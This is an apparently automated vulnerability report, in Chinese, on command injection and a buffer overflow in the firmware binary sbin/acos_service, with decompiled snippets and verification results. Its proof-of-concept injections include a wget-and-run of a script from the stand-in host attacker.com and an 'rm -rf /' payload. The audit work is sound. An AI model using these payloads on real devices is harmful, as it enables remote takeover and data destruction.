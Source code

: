 - **文件/目录路径：** `sbin/acos_service`
- **位置：** `acos_service:0x00013fa0 fcn.000154d0`
- **描述：** 命令注入漏洞存在于函数 fcn.000154d0 (burnboardid) 中。用户控制的输入（通过环境变量或 NVRAM 变量）被用于构建 system 命令，缺少输入验证和过滤。攻击者可以注入恶意命令（如 '; malicious_command'）来执行任意代码。触发条件：攻击者设置恶意环境变量或操纵 NVRAM 值。约束条件：输入直接插入命令字符串，无边界检查或转义。潜在攻击：攻击者作为认证用户通过 Web 接口或 API 设置输入，导致远程代码执行。
- **代码片段：**
  ```
  // 从反编译代码提取的示例
  uVar13 = sym.imp.acosNvramConfig_get(uVar13, uVar17);
  sym.imp.sprintf(iVar18, *0x140e0, pcVar10, uVar13); // pcVar10 和 uVar13 为用户输入
  sym.imp.system(iVar18); // 执行命令，可能注入恶意代码
  ```
- **备注：** 证据基于反编译代码中的多个 system 调用链。攻击链完整：从 getenv 或 acosNvramConfig_get 到 system。建议验证具体环境变量名和 NVRAM 变量的可控制性。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自反编译代码：函数 fcn.000154d0 中包含多个 system 调用链，其中用户输入（通过环境变量如 getenv 或 NVRAM 变量如 acosNvramConfig_get）被直接插入到 sprintf 格式字符串中，然后传递给 system 执行，缺少任何输入验证、过滤或转义。例如，在地址 0x00013fa0 处，代码执行 `sym.imp.sprintf(iVar18, *0x140e0, pcVar10, uVar13);` 和 `sym.imp.system(iVar18);`，其中 pcVar10 和 uVar13 是用户可控的。攻击者模型：认证用户（通过 Web 接口或 API）可以设置环境变量或 NVRAM 值，触发易受攻击的代码路径（如处理 'deconfig'、'bound' 或 'renew' 参数时）。完整攻击链：攻击者控制输入 → 输入插入命令字符串 → system 执行恶意命令。漏洞实际可利用，因为输入可控、路径可达（通过认证请求触发），且影响为远程代码执行。概念验证（PoC）：攻击者可设置环境变量或 NVRAM 变量值为 '; malicious_command'（例如 '; wget http://attacker.com/shell.sh -O /tmp/shell.sh && sh /tmp/shell.sh'），当该值用于构建命令时，将执行任意代码。

## 验证指标

- **验证时长：** 161.46 秒
- **Token 使用量：** 229779

---

## 原始信息

- **文件/目录路径：** `sbin/acos_service`
- **位置：** `acos_service:0x0001a4d4 fcn.0001a2b4`
- **描述：** 命令注入和缓冲区溢出漏洞存在于函数 fcn.0001a2b4 中。用户控制的命令行参数通过 sprintf 格式化到固定大小栈缓冲区（0x108 字节），格式为 'ifconfig %s add %s/%s'，然后通过 system 执行。缺少边界检查和输入过滤。触发条件：argc > 3 且特定 NVRAM 配置（如 'dhcp6c_readylogo' 设置为 '1'）满足。约束条件：输入直接插入命令字符串。潜在攻击：攻击者注入命令（如 '; rm -rf /'）或导致缓冲区溢出，执行任意代码。
- **代码片段：**
  ```
  // 从汇编代码提取
  0x0001a4d4: bl sym.imp.sprintf // 使用格式字符串 'ifconfig %s add %s/%s'
  0x0001a4e8: bl sym.imp.system // 执行命令，可能注入或溢出
  ```
- **备注：** 攻击链完整：从 main 函数传递命令行参数到 fcn.0001a2b4，最终通过 system 执行。污点数据流已验证。建议检查实际设备上的调用机制。

## 验证结论
